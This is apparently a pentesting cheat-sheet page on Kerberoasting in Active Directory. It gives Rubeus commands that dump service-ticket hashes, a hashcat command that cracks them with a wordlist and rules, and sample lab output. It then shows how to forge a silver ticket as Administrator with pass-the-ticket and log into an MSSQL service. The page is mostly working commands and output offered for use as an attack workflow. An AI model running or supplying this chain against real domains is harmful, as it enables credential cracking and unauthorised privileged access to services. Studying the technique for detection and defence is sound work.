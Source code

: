 The service ticket is encrypted using the SPN's password hash. If we are able to request the ticket and decrypt it using brute force or guessing, we can use this information to crack the cleartext password of the service account.

This technique is known as Kerberoasting.

- <https://www.hub.trimarcsecurity.com/post/trimarc-research-detecting-kerberoasting-activity>




### Windows
Use `Rubeus.exe`.


```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast



rubeus kerberoast /domain:kerb.local /creduser:kerb.local\test /credpassword:testpwd /nowrap

```

Rubeus will identify the user accounts vulnerable to Kerberoasting and write the hash to an output file.


Then use hashcat:

```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```




#### Another option
- <https://www.youtube.com/watch?v=xH5T9-m9QXw&list=PL3B8L-z5QU-Z0bWmjwgUSLGTzm1k_kVZo&index=2>

```
rubeus.exe kerberoast /domain:[DOMAIN (may be local)] /creduser:[USER] /credpassword:[PASSWORD] /nowrap

```

Example:
```
rubeus kerberoast /domain:kerb.local /creduser:kerb.local\test /credpassword:testpwd /nowrap

SamAccountName			:	SQLUser
DistinguishedName		:	CN=SQLUser,OU=KerbUsers,DC=kerb,DC=local
ServicePrincipalName	:	MSSQLSvc/kerbdc1.kerb.local:1433
PwdLastSet				:	14/11/2021 16:32:41
Supported ETypes		:	RC3_HMAC_DEFAULT
Hash					:	$krb5tgs$23$*SQLUser$kerb.local$MSSQLSvc/kerbdc1.kerb.local:1433@kerb.local*$....

- Get rc4
rubeus hash /password:[RESULT OF HASHCAT]

- get SID
whoami /user

rubeus silver /service:MSSQLSvc/kerbdc1.kerb.local:1433 /rc4 /sid: /user:Administrator /domain: /ptt


- log to service
sqlcmd -S kerbdc1.kerb.local

```